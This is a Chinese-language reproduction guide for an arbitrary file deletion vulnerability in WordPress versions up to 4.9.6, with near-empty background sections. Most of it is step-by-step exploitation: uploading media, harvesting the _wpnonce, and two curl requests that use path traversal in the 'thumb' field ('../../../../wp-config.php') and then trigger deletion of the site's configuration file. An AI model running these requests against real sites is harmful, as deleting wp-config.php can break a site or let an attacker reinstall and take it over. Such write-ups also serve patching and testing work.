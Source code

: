 Wordpress \<= 4.9.6 任意文件删除漏洞
====================================

一、漏洞简介
------------

利用条件L：需要进入后台

二、漏洞影响
------------

三、复现过程
------------

### 添加新媒体

访问[http://0-sec.org/wp-admin/upload.php，然后上传图片。](http://0-sec.org/wp-admin/upload.php，然后上传图片。)

![](./resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId26.png)

### 将\$ meta \[\'thumb\'\]设置为我们要删除的文件

#### 单击我们在中上传的图像Step 2，并记住图像的ID。

![](./resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId29.png)

#### 访问[http://0-sec.org/wp-admin/post.php?post=4&action=edit.\_wpnonce在页面源中查找](http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce在页面源中查找)

![](./resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId32.png)

#### 发送有效载荷：

    curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'

![](./resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId34.png)

### 发动攻击

#### 在页面源码中查找 \_wpnonce

![](./resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId37.png)

#### 发送有效载荷

    curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***'

![](./resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId39.png)

#### 刷新页面

image
